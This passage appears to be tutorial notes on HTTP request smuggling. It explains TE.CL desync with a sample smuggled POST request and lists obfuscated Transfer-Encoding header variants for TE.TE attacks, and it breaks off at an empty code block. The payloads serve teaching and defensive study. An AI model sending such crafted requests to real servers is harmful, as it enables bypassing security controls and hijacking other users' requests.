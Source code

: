 ### TE.CL Vulnerabilities

The front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. 
 We can perform a simple HTTP request smuggling attack as follows:

```http request
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

```

The front-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding.
 It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following **SMUGGLED**.
 It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request.
 This request is forwarded on to the back-end server.

The back-end server processes the `Content-Length` header and determines that the request body is 3 bytes long,
 up to the start of the line following 8. The following bytes, starting with **SMUGGLED**, are left unprocessed,
 and the back-end server will treat these as being the start of the next request in the sequence.

### TE.TE Vulnerabilities

The front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced
 not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the `Transfer-Encoding` header, for example:

```http request
Transfer-Encoding: xchunked
```
```http request
Transfer-Encoding[SPACE]: chunked
```
```http request
Transfer-Encoding: chunked
Transfer-Encoding: x
```
```http request
Transfer-Encoding:[TAB]chunked
```
```http request
[SPACE]Transfer-Encoding: chunked
```
```http request
X: X[\n]Transfer-Encoding: chunked
```
```http request
Transfer-Encoding
: chunked
```
```http request
Transfer-Encoding: chùnked
```
```http request
Transfer-Encoding: \x00chunked
```
```http request
```